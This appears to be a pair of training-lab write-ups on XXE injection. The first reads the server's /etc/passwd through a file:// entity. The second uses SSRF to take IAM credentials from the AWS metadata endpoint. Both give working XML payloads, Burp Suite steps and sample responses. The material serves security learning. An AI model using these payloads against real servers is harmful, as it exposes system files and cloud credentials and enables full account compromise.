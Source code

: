 **LAB 1**
### Writeup: Exploiting XXE to Read the `/etc/passwd` File

---

#### **Objective**:
To demonstrate how an **XML External Entity (XXE)** vulnerability can be exploited to read sensitive files on a server, such as the `/etc/passwd` file, by manipulating an XML request.

---

#### **Steps**:

1. **Visit the Product Page**:
   - Navigate to the target website and visit a product page.
   - Look for a feature like "Check stock" or any functionality that triggers a request to check product availability.

2. **Intercept the Request**:
   - Open **Burp Suite** and configure your browser to route traffic through it.
   - Click the "Check stock" button on the product page.
   - In Burp Suite, intercept the resulting **POST request** in the **Proxy** tab.

3. **Analyze the Request**:
   - Observe that the request contains XML data, likely in the body of the POST request. For example:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <stockCheck>
         <productId>123</productId>
         <storeId>1</storeId>
     </stockCheck>
     ```

4. **Inject the External Entity Definition**:
   - Insert an external entity definition between the XML declaration and the `stockCheck` element. For example:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
     <stockCheck>
         <productId>&xxe;</productId>
         <storeId>1</storeId>
     </stockCheck>
     ```
   - Here, the `xxe` entity is defined to load the contents of the `/etc/passwd` file from the server.

5. **Replace the `productId` with the Entity Reference**:
   - Replace the numeric value of `productId` with a reference to the external entity (`&xxe;`). This will cause the server to replace `&xxe;` with the contents of the `/etc/passwd` file when parsing the XML.

6. **Forward the Request**:
   - Forward the modified request in Burp Suite and observe the server's response.

---

#### **Expected Result**:
- The server processes the malicious XML and attempts to resolve the `xxe` entity by reading the `/etc/passwd` file.
- The response will likely contain an error message like:
  ```
  Invalid product ID: root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  ...
  ```
- This output confirms that the server has successfully read and returned the contents of the `/etc/passwd` file, demonstrating the XXE vulnerability.

---

LAB 2 - XXE WITH SSRF
# **XXE to SSRF Exploitation Write-up**  

## **Objective**  
To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's **IAM secret access key** from the **EC2 metadata endpoint**.

---

## **Steps to Exploit the XXE Vulnerability**  

### **1. Intercept the Stock Check Request**  
- Visit a product page on the target web application.  
- Click on **"Check stock"** to generate a request.  
- Open **Burp Suite** and go to the **Proxy** tab to **intercept the request**.  

---

### **2. Modify the XML Request to Inject an External Entity**  
- The original request body contains an XML structure like:  

  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
    <productId>123</productId>
  </stockCheck>
  ```  

- Modify it to include an **external entity definition** that targets the AWS metadata API:  

  ```
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [  
    <!ENTITY xxe SYSTEM "http://169.254.169.254/">  
  ]>
  <stockCheck>
    <productId>&xxe;</productId>
  </stockCheck>
  ```  

- Forward this request to the server.  

---

### **3. Extract the Initial Metadata Response**  
- The response should contain an **"Invalid product ID"** message, followed by the **contents of the metadata endpoint**.  
- The initial response may list available folders, such as:  

  ```
  Invalid product ID: meta-data/
  ```  

---

### **4. Explore the AWS Metadata API**  
- Modify the **entity URL** to explore deeper directories:  

  ```
  <!DOCTYPE foo [  
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">  
  ]>
  <stockCheck>
    <productId>&xxe;</productId>
  </stockCheck>
  ```  

- The response should return available metadata categories:  

  ```
  Invalid product ID: iam/
  ```

- Continue refining the payload to extract **IAM credentials**:  

  ```
  <!DOCTYPE foo [  
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
  ]>
  <stockCheck>
    <productId>&xxe;</productId>
  </stockCheck>
  ```  

---

### **5. Extract AWS Credentials**  
- The response should now return **AWS IAM credentials** in JSON format, containing:  
  - `AccessKeyId`  
  - `SecretAccessKey`  
  - `Token`  

  Example response:  

  ```
  "Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2025-01-31T13:00:03.058000926Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "FZAOCiMDHsO0sjuoAmMY",
  "SecretAccessKey" : "qFd3EBresB8ROr5aGcySRLKZj5n3dC0Diz1C2OEJ",
  "Token" : "V71vS981zt0MzLNZc7zhtVT87oqyzCjEcxHg9eF7nWE9mMrY3e1gR04sHuil6aWBHiszKbD4Qbx58fp1Rx2qkWuDb0X0DzgY6o7pZtSC1mk88hV4IK5JlLR4sGH8DZHwQ5tZ6k0qiaSjXBIFXoACF3AJx48JIYVGTtqQ7n3RviG3lvdUg1mWz0l2xC4cDfTv5XnPMkz5dSHAMeubWcOegy4piHU1hO6ejqSh623Zr11uP7mXbMYQDuuuTR4WmW4u",
  "Expiration" : "2031-01-30T13:00:03.058000926Z"}"
  ```  

## **Conclusion**  
This lab demonstrates how **XXE Injection** can be leveraged to conduct **SSRF attacks** against internal cloud metadata services. By iteratively refining the payload, attackers can extract **AWS IAM credentials**, leading to potential full cloud compromise.
